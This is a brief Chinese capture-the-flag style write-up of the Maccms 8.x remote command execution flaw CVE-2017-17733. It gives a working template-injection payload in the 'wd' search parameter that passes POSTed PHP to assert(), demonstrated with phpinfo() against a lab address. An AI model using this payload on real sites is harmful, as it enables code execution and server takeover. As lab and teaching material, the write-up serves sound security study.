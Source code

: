 # maccms远程命令执行(CVE-2017-17733)
## 漏洞描述
Maccms是一套跨平台的基于PHP和MySQL快速建站系统。 Maccms 8.x版本中存在安全漏洞。远程攻击者可借助index.php?m=vod-search请求中的‘wd’参数利用该漏洞执行命令

## 影响版本
Maccms 8.x版本

## 利用流程
1.访问地址：118.193.36.37:15113

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/maccms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2017-17733)/1.jpg)
2.访问存在漏洞地址 及post传值
```
/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

```
post传值

```
a=phpinfo()
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/maccms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2017-17733)/2.jpg)
3.get flag
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/maccms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2017-17733)/3.jpg)
